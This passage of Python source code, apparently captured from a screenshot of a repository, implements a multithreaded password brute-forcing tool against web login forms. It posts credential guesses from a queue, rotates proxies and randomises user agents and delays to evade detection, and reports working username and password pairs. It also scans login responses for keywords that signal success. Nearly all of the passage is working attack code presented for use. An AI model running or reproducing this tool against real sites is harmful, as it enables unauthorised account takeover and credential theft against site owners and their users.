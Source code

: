                 with self.lock:
                    self.request_count += 1
                
                # اضافه کردن http اگر وجود ندارد
                if not url.startswith(('http://', 'https://')):
                    url = 'http://' + url
                
                payload = {
                    'username': username,
                    'password': password,
                    'login': 'Login',
                    'submit': 'Submit'
                }
                
                headers = {
                    'User-Agent': self.get_random_user_agent(),
                    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                    'Accept-Language': 'en-US,en;q=0.5',
                }
                
                proxy_config = self.rotate_proxy(proxies) if proxies else None
                
                try:
                    response = self.session.post(
                        url,
                        data=payload,
                        headers=headers,
                        proxies=proxy_config,
                        timeout=timeout,
                        allow_redirects=True
                    )
                    
                    if self.analyze_response(response):
                        with self.lock:
                            self.found = True
                        print(f"\n{Colors.GREEN}[✓] SUCCESS! {Colors.SKY_BLUE}Username: {username} | Password: {password}{Colors.END}")
                        print(f"{Colors.GREEN}[✓] Status: {response.status_code}{Colors.END}")
                        return True
                    
                except requests.exceptions.RequestException as e:
                    print(f"{Colors.YELLOW}[!] Error for {password}: {e}{Colors.END}")
                
                print(f"{Colors.RED}[×] Failed: {password} | Requests: {self.request_count}{Colors.END}")
                
                time.sleep(random.uniform(delay[0], delay[1]))
                password_queue.task_done()
                
            except Exception as e:
                print(f"{Colors.RED}[!] Unexpected error: {e}{Colors.END}")
                password_queue.task_done()
    
    def analyze_response(self, response):
        success_indicators = [
            "dashboard", "welcome", "logout", "my account",
            "login successful", "successfully logged in",
            "profile", "member area"
        ]
        